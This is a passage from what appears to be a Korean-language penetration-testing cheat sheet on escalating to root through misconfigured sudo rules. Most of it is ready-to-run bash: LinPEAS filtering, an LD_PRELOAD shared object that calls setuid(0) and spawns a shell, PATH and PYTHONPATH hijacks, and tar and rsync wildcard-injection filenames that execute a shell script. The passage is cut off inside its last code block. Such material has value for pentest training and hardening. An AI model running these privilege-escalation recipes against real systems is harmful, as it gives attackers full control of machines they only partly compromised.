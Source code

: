 ### 🔧 LinPEAS sudo 정보 추출

```bash
# LinPEAS에서 sudo 관련 정보만 빠르게 확인
./linpeas.sh | grep -A 10 -B 5 "sudo"

# 또는 특정 섹션만
./linpeas.sh -o UsrI | grep -E "(sudo|NOPASSWD)"
```

## 👀 놓치기 쉬운 것들

### 🚨 환경 변수 악용

```bash
# 1. LD_PRELOAD 하이재킹
if sudo -l | grep -q "env_keep.*LD_PRELOAD"; then
    echo "LD_PRELOAD exploitation:"
    echo 'void _init() { setuid(0); system("/bin/sh"); }' > /tmp/lib.c
    gcc -fPIC -shared -o /tmp/lib.so /tmp/lib.c -nostartfiles
    sudo LD_PRELOAD=/tmp/lib.so program
fi

# 2. PATH 하이재킹
if sudo -l | grep -q "env_keep.*PATH"; then
    echo "PATH hijacking:"
    export PATH=/tmp:$PATH
    echo '#!/bin/bash\n/bin/sh' > /tmp/program_name
    chmod +x /tmp/program_name
    sudo program_name
fi

# 3. PYTHONPATH 하이재킹
if sudo -l | grep -q "env_keep.*PYTHON"; then
    echo "PYTHONPATH hijacking:"
    echo 'import os; os.system("/bin/sh")' > /tmp/module.py
    sudo PYTHONPATH=/tmp python -c 'import module'
fi

# 4. LD_LIBRARY_PATH 하이재킹
if sudo -l | grep -q "env_keep.*LD_LIBRARY_PATH"; then
    echo "LD_LIBRARY_PATH exploitation possible"
fi
```

### 🔍 와일드카드 인젝션

```bash
# tar 와일드카드 인젝션
if sudo -l | grep -q "tar.*\*"; then
    echo "TAR wildcard injection:"
    echo -e '#!/bin/bash\n/bin/sh' > /tmp/shell.sh
    chmod +x /tmp/shell.sh
    touch /tmp/--checkpoint=1
    touch /tmp/--checkpoint-action=exec=sh\ /tmp/shell.sh
    # sudo tar 명령어에 /tmp/* 포함시 실행됨
fi

# rsync 와일드카드 인젝션
if sudo -l | grep -q "rsync.*\*"; then
    echo "RSYNC wildcard injection:"
    touch /tmp/-e sh
    touch /tmp/x
    # sudo rsync /tmp/* destination 실행시 쉘 획득
```